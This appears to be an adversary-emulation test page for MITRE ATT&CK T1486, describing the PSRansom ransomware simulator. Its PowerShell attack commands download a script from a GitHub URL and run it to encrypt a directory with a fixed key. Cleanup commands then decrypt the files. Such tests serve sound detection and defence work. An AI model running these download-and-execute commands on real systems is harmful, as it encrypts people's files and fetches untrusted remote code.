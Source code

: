 # PSRansom - Tehtris Test: Running PSRansom
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1486)
<blockquote>PSRansom is a PowerShell Ransomware Simulator with C2 Server capabilities. This tool helps you simulate encryption process of a generic ransomware in any system on any system with PowerShell installed on it. Thanks to the integrated C2 server, you can exfiltrate files and receive client information via HTTP.

All communication between the two elements is encrypted or encoded so as to be undetected by traffic inspection mechanisms, although at no time is HTTPS used at any time.</blockquote>

## Tehtris Tests

- [Tehtris Test - Running PSRansom](#tehtris-test---PSRansom)

<br/>

## Tehtris Test - Running PSRansom
Methods to simulate a ransomware on a single computer.

when sucessfully executed, the test encrypts files on the computer and drop a ransom note.

**Supported Platforms:** Windows


**auto_generated_guid:** f92a380f-ced9-491f-b338-95a101418ce2


#### Attack Commands: Run with `powershell`! 


```powershell
$file_url = "https://raw.githubusercontent.com/HakkYahud/PSRansom/main/PSRansom.ps1"
$file_path = "C:\Users\Public\PSRansom.ps1"
$victim_directory = "C:\Users\I241001\AppData\Local\security.df6"
(New-Object System.Net.WebClient).DownloadFile($file_url, $file_path)
powershell $file_path -e $victim_directory -k "TehtrisKey007!"
```

#### Cleanup Commands:
```powershell
$psrk = Get-Content -Path $env:public\recoverykey.txt
Write-Host [+] Recovery Key: $psrk
powershell $file_path -d $victim_directory -k $psrk
Remove-Item $file_path
Remove-Item $env:public\recoverykey.txt
```

<br/>
<br/>